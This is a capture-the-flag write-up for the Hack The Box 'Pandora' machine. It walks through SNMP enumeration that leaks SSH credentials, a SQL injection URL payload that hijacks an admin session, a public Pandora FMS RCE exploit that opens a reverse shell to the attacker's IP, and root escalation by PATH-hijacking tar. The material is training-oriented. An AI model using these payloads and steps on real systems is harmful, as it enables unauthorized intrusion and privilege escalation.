# [Pandora](https://app.hackthebox.com/machines/pandora)

```bash
nmap -p- --min-rate 10000 10.10.11.136 -Pn
```


Let's do greater nmap scan for this hosts.

```bash
nmap -sC -sV -A -p22,80 10.10.11.136 
```



Let's scan also UDP scan which we see that SNMP is open.
```bash
nmap -sU -top-ports=100 10.10.11.136 
```



By the way, from grabbing, I see that I need to resolve this ip address into 'panda.htb'.


Here, I use `snmp-mibs-downloader` tool to enumerate SNMP.
With this tool I grab information related to SNMP then read results from here that what kind of information I can get.

```bash
snmpbulkwalk -Cr1000 -c public -v2c 10.10.11.136 . | tee -a snmp3
```



I used like this, which writes results of SNMP enumeration into 'snmp3' file.

From here, I try to grab information that I can get maybe credentials.

Hola.



I find below credentials, let's try to abuse this.

daniel: HotelBabylon23


Let's join to SSH service via above credentials.




Here I find that Pandora FMS is used, let's try to see this via our attacker machine.
For this, we need to setup Local Port Forwarding (ssh -L option)

```bash
ssh -L localhost:8000:localhost:80 daniel@10.10.11.136
```

If we do this, we can access web application via browsing 'localhost:8000' on our browser.




At the bottom, we can see that version 'v7.0NG.742_FIX_PERL2020' is used, let's try to search publicly known exploit.

I found RCE exploit [CVE-2020-5844](https://github.com/UNICORDev/exploit-CVE-2020-5844.git)


Let's send this exploit into our machine.
```bash
python3 -m http.server --bind 10.10.16.8 8080
```



```bash
wget http://10.10.16.8:8080/exploit-CVE-2020-5844.py
```




First, we need to get PHP session, for this, we need to bypass login form by using this [PoC](https://github.com/l3eol3eo/CVE-2021-32099_SQLi).

```bash
http://localhost:80/pandora_console/include/chart_generator.php?session_id=PayloadHere%27%20union%20select%20%271%27,%272%27,%27id_usuario|s:5:%22admin%22;%27%20--%20a 
```




Yes it worked , we get session id 'gu9ohtjtl3kr1sve6dle129fkf'


```bash
python3 exploit-CVE-2020-5844.py -t 127.0.0.1 80 -p gu9ohtjtl3kr1sve6dle129fkf -s 10.10.16.8 1337

```




We got reverse shell.




Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




user.txt




I just searched for SUID files via below command.
```bash
find / -perm -4000 -ls 2>/dev/null
```




There is interesting one called '/usr/bin/pandora_backup'.




While we want to look at executable's content, we see that `tar` command is used .




First of all, I need to get good and interactive shell (persistent), for this I need to generate public key file.






We got interacteive shell by joining (via private key).



Then, As I know `tar` command is used for `pandora_backup` binary, I need to create malicious `tar` command which give me shell of root. For this , I need to do below steps.

```bash
cd /tmp
echo "/bin/bash" > tar
chmod +x tar
export PATH=/tmp:$PATH
/usr/bin/pandora_backup # run target executable
```

root.txt

